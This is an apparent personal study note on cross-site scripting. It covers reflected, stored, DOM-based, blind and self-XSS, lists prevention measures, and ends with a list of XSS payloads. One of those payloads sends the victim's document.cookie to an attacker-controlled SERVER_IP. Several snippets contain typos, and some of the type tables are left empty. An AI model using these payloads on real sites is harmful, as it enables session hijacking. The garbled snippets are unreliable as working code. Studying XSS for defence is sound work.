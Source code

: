 # XSS Overview

Cross-Site Scripting is an injection attack where malicious code (*JavaScript*, *HTML*, *etc.*) gets injected into a web application with the intention of being executed by other users

* If an application fails to distinguish between user input and the legitimate code that makes up a web page, attackers can inject their own code into pages viewed by others (*Comment sections*, *etc.*)
* Attackers can have the victim's browser execute malicious script or code to do certain actions (*Steal cookies*, *Leak personal information*, *etc.*)

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Types of XSS

| XSS Type | Description |
| --- | --- |
| Reflected XSS | |
| Stored XSS | |
| DOM-Based XSS | |
| Blind XSS | |

## Reflected XSS

Reflected XSS occurs when an attacker injects malicious scripts into a web application that are immediately reflected back to a user without proper validation or sanitization

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/8e3bffe500771c03366de569c3565058.png)

* Relies on tricking a user into clicking a specially crafted link or submitting a malicious form, which then executes the malicious script in their browser
* In this case, the application takes in user input, processes it server-side, and immediately returns it to the user
* Often happens when the server relies on user input to construct pages that display search results or error messages (*Search bars*, *etc.*)
* Enables attackers to execute code on the browsers of victims who click their malicious links
* Reflected XSS payloads get sent to the server and returned to the user's browser within an HTTP response

| Reflected XSS Method | Description |
| --- | --- |
| Parameters in the URL Query String | |
| URL File Path | |
| HTTP Headers | |

## Stored XSS

Stored XSS is when a malicious script that was injected by an attacker is permanently stored on the target web server (Ex: *Database*, *Message forum*, *Comment section*, *etc.*)

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/cc2566d297f7328d91bc8552f902210e.png)

* When other users view the affected content, the malicious script is served and executed in their browser
* All the user has to do to become a victim is to view a page with the payload embedded (Whereas reflected and DOM XSS usually require the user to click a malicious link)
* Everytime users access the stored information, the XSS executes in their browser

## DOM-Based XSS

DOM-Based XSS occurs when the client-side script of a web application manipulates the Document Object Model in an unsafe way based on user input (The DOM is a model that represents a web page's structure and used to render a web page by defining the basic properties and behavior of each HTML element)

* Targets the DOM directly by attacking the client's local copy of the web page instead of going through the server (Attackers can attack the DOM when a page takes user-supplied data and dynamically alters the DOM based on that input)
* Doesn't require server involvement because it executes when user input modifies the source code of the page in the browser directly (The XSS script is never sent to the server, so the HTTP response from the server won't change)
* User input never leaves the user's browser
* The application takes in user input, processes it on the victim's browser, and then returns it to the user (The XSS payload is injected onto a page because of client-side code rendering user input in an insecure manner)

## Blind XSS

Blind XSS is when a threat actor injects malicious scripts into a web application without immediately seeing the results

* Useful when the injected script is stored and later executed in a different context or viewed by a subject that has access to a part of the application that the attacker can't directly see  (Ex: *An attacker can submit a message with JavaScript code and have that code executed by any admin who views that message*)

## Self-XSS

Self-XSS is where an attack tricks vicitms to input a malicious payload themselves 

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Preventing XSS

* Robust input validation
* Contextual output escaping (Escaping ensures that browsers don't misinterpret characters as code to execute)
* Contextual output encoding
* Applications should never insert user-submitted data directly into an HTML document
* Applications should avoid code that rewrites the HTML document based on user input
* Applications should implement client-side input validation before it's inserted into the DOM
* You can instruct the browser to execute only scripts from a list of source

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# XSS Payloads

```HTML
<img onload=alert('XSS') scr="example.png">
```

URL
```Text
javascript:alert('XSS')
```

Data URL
```Text
data:text/html;base64,<ENCODED_STRING>
```

iFrame (Useful when <script> tags are banned by the XSS filter)
```HTML
<iframe src=javascript:alert('XSS')>
```

Make the victim's browser request a page on your server
```JavaScript
<script src='http://SERVER_IP/test'></script>
```

Insert JavaScript code into HTML code as an attribute to the current tag
```HTML
<img src="example.com" onerror="alert('XSS');">
```
```HTML
<a href="javascript:alert('XSS')>Click me</a>"
```

Use the JavaScript `fromCharCode()` function to construct an XSS payload without quotes
```JavaScript
String,fromCharCode()
```

tmp
```JavaScript
<script<script>t>location='http://SERVER_IP/c='document.cookie;</scrip</script>t>
```

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# XSS Polygot

An XSS polygot is a type of XSS payload that executes in multiple contextx (Ex: *It'll execute regardless of whether it is inserted into an <img> tag, <script> tag, or a <p> tag*)
